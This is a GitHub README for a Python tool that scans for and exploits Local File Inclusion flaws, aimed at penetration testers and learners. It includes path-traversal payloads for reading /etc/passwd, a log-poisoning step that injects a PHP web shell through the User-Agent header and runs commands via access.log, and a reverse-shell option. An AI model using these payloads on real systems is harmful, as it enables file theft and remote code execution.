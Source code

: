 Custom LFI Exploiter by Sahed (v1.6)

A flexible and fast Local File Inclusion (LFI) vulnerability scanner built with Python. Developed for penetration testers and cybersecurity learners, this tool performs automated LFI discovery, log poisoning, and optional reverse shell generation.

✨ Features

✅ Multi-threaded payload delivery for faster testing

📂 Support for custom payload lists

🔎 Smart base64 decoding for php://filter and data:// responses

🦖 Log poisoning detection and code injection

🧠 Keyword-based LFI detection (OS and web signatures)

🔊 Reverse shell payload generator (optional)

📊 Outputs findings to a clean .txt report

📁 Displays common sensitive file paths for manual testing

💪 Usage

python3 lfisuite.py <url> <parameter> [payloads.txt] [ip:port]

Example:

python3 lfisuite.py https://target.com/page.php id payloads.txt 10.10.14.99:4444

url: The target URL, excluding the vulnerable parameter (e.g. https://target.com/page.php)

parameter: The vulnerable GET parameter name (e.g. id)

payloads.txt (optional): Custom file with payloads, one per line

ip:port (optional): For reverse shell payload generation

📅 Sample Output

[+] LFI detected with payload: ../../../../etc/passwd
[Preview]:
root:x:0:0:root:/root:/bin/bash
...

📝 Log Poisoning

Injects code via the User-Agent header:

<?php system($_GET['cmd']); ?>

Then includes access logs using payloads like:

../../../../../../../var/log/apache2/access.log?cmd=id

📄 Report

All successful findings are saved to:

lfi_report.txt

Use this file for documentation or later analysis.

👉 About

Built by Sahed — Team Cyber Slayers 🚀Inspired by LFISuite but extended for better usability, speed, and support.

✨ Contributions

Pull requests, bug reports, and feature ideas are welcome. Let’s improve LFI testing together!

👁️ Disclaimer

This tool is for educational and authorized penetration testing only. Unauthorized use is illegal and unethical.


